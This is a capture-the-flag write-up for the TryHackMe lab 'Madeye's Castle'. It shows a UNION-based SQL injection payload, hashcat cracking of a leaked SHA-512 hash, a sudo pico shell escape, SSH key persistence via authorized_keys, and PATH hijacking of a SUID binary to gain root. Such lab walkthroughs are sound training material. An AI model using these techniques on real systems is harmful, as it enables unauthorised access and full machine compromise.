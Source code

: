 <h1>Write up for Madeye's Castle on <a href='https://tryhackme.com'>TryHackMe</a> </h1>

<h3>User1.txt</h3>

We start with nmap scan.
<br></br><img src='Screenshot (79).png'/><br></br>

We can see that there is samba service. Let's start with that.Listing the shares
(you can just press enter when it asks for password)
<br></br><img src='Screenshot (80).png'/><br></br>

Now we can see there is a share named 'sambashare'. Let's try accessing it without creds(just press enter when it asks for password).
<h5>smbclient \\\\{MACHINE IP}\\sambashare</h5>
We see two files in share
<br></br><img src='Screenshot (81).png'/><br></br>
we can download both the files to local machine using the get command in smb
<h5>get {FILE NAME}</h5>

spellnames.txt looks like a wordlist which might come handy later and .notes.txt has a message inside it
<h5>Hagrid told me that spells names are not good since they will not "rock you"<br></br>
Hermonine loves historical text editors along with reading old books.</h5>

Seems interesting, now lets move to the webapp. Visiting the webpage just gives a default apache page. So I staerted enumerating the webpage with <a href='https://github.com/ffuf/ffuf'>ffuf</a> meanwhile I opened the source code of the webpage and found an intersting comment
<br></br><img src='Screenshot (82).png'/><br></br>

So now we know a virtual host, lets add that to <b>/etc/hosts</b>
<br></br><img src='Screenshot (83).png'/><br></br>

Visiting the vhost just gives us a login page.I tried some default creds for that but they obviously didn't work. I ran <a href='https://github.com/ffuf/ffuf'>ffuf</a> against the webpage but didn't find anything interesting. I thought of brute forcing the creds but I wanted that to be a last resort so I tried for a basic sql injection.
<br><b>Request</b></br>
<br></br><img src='Screenshot (84).png'/><br></br>
<br><b>Response</b></br>
<br></br><img src='Screenshot (85).png'/><br></br>
Nice, now we have sql injection. Let's take this request to burp repeater. Let's determine the number of columns in the table. I tried order by, group by but they didn't work but union select worked.
<br></br><img src='Screenshot (86).png'/><br></br>
We can see that value 1 and 4 are being reflected in the response, We can use this to get data from the server. I tried to determine what DB it was by running different version commands, tried all the version commands and sqlite_version() gave back the response
<br></br><img src='Screenshot (87).png'/><br></br>
We now know that it is sqlite, let's get the tables
<br></br><img src='Screenshot (88).png'/><br></br>
Now lets get the columns in the table
<br></br><img src='Screenshot (89).png'/><br></br>

Now we have the following table: <b>users</b>
The columns in the table are: <b>name,password,notes,admin</b><br></br>

You can extract the column content with this payload (replace spaces with '+' in burpsuite)
<h5>1' union select 1,2,3,group_concat({COLUMN NAME}) from users;--</h5>

When extracting we get multiple users, the one user that stands out is <b>Harry Turner</b> because of what his notes say <b>My linux username is my first name</b> and the note next to harry say <b>and password uses best64</b>
<br></br>
Now best64 is a rule which is used in hashcat, rules are basically how a string can be constructed in different ways given a rule (read more about it <a href='https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/'>here</a>). In linux you can find it's location is <b>/usr/share/hashcat/rules/best64.rule</b> or you can find the rule <a href='https://github.com/hashcat/hashcat/blob/master/rules/best64.rule'>here</a>

So we need to crack Harry's hash with best64 rule but what wordlist do we need, if we use rockyou.txt then it will take a long time so we can use the spellnames.txt wordlist that we found earlier. Now we need to find the type of hash that is, we can use hashid in linux.
<h5>hashid '{HASH}'</h5>
<br></br><img src='Screenshot (90).png'/><br></br>
It's a SHA-512 hash, now we can crack the hash for harry
<h5>hashcat -m 1700 -a 0 'c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492' -r {PATH TO best64.rule FILE} {PATH TO spellnames.txt}</h5>

The hash is cracked and we get the passowrd for the user. So the ssh creds would be, harry:{CRACKED HASH}


<h3>User2.txt</h3>
After getting the shell as harry if you run <b>sudo -l</b> we can see that we can run <b>/usr/bin/pico</b> as user <b>hermonine</b>. I ran the command as user hermonine
<h5>sudo -u hermonine /usr/bin/pico</h5>
This opens a text editor. lets go to <a href='https://gtfobins.github.io'>GTFO</a> to find a way to get a shell. Search for pico and in sudo section we can see a way to gain a shell.
Start the nano editor with 
<h5>sudo -u hermonine /usr/bin/pico</h5>
and then press ^R (left CTRL + R) followed by ^X (Left CTRL + X) and then it will ask for a command enter the command <b>reset; sh 1>&0 2>&0</b> and you will get a shell.
It might look like you didn't get a shell but if you run <b>id</b> you will get the output. So you can run <b>bash -i</b> to get a interactive shell and then you can clear the screen.
We have the flag for the user if you go to /home/hermonine. You can upgrade this to a ssh shell by adding your public key to authorized_keys folder in .ssh
<h5>mkdir .ssh; echo '{YOUR PUBLIC KEY}' > /home/hermonine/.ssh/authorized_keys</h5>
Login with you private key to get a ssh shell as hermonine

<h3>Root.txt</h3>

If you look for binary which have set uid then you will see and interesting file
<br></br><img src='Screenshot (91).png'/><br></br>

I ran the binary and it just asked me to guess a number but obviously I wasn't able to. So I decided to look inside the while and copied it to my mahcine
<h5>scp -i {PATH TO PRIVATE KEY} hermonine@{MACHINE IP}:/srv/time-turner/swagger .</h5>

I opened the binary in ghidra and found something interesting. If we are able to guess the number correctly then the binary executes a impressive function and in that function we can see something that is quite usefult for us
<br></br><img src='Screenshot (92).png'/><br></br>
The binary is executing uname but without full path which means we can hijack the uname. I created a uname in /tmp and it had the following command
<h5>mkdir /root/.ssh;echo '{YOUR PUBLIC KEY} > /root/.ssh/authorized_keys'</h5>
I made the binary executable with <h5>chmod +x /tmp/uname</h5> and added the /tmp to the path of the user.
<h5>export PATH=/tmp:$PATH</h5>
This added /tmp to user's PATH. Now we just need to guess the right  number. If you run the binary multiple times in a short span of time we can see that the random number is same
<br></br><img src='Screenshot (93).png'/><br></br>
Now we can extract the number from previous binary and give to the new binary which will evaluate true and execute the uname command
<h5>echo 0 | /srv/time-turner/swagger | grep -oE '[^ ]+$' | tail -1 | /srv/time-turner/swagger</5>
This will add your public key to root's authorized_keys and then you can use that to login with your private key as root. You can also read the flag directly too





